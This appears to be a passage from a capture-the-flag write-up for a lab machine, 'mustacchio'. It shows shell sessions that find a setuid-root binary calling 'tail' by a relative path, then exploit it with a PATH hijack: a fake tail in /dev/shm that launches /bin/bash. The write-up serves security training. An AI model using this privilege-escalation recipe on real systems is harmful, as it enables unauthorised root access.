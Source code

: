 looking for what the file does
```
barry@mustacchio:/home$ cd joe

barry@mustacchio:/home/joe$ ls -la

total 28
drwxr-xr-x 2 joe  joe   4096 Jun 12 15:48 .
drwxr-xr-x 4 root root  4096 Jun 12 15:48 ..
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log

barry@mustacchio:/home/joe$ file live_log 

live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped

barry@mustacchio:/home/joe$ strings live_log 

/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
printf
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
<snip>
```

live_log bin basically prints the last 10 entries (execute tail) on /var/log/nginx/access.log. Notice that tail is not using an absolute path.  

[Privilege Escalation using Path Variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

exploiting using path variable
```
barry@mustacchio:/home/joe$ cd /dev/shm

barry@mustacchio:/dev/shm$ echo "/bin/bash" > tail

barry@mustacchio:/dev/shm$ chmod 777 tail

barry@mustacchio:/dev/shm$ echo $PATH

barry@mustacchio:/dev/shm$ export PATH=/dev/shm:$PATH

barry@mustacchio:/dev/shm$ cd /home/joe

barry@mustacchio:/home/joe$ ./live_log
```
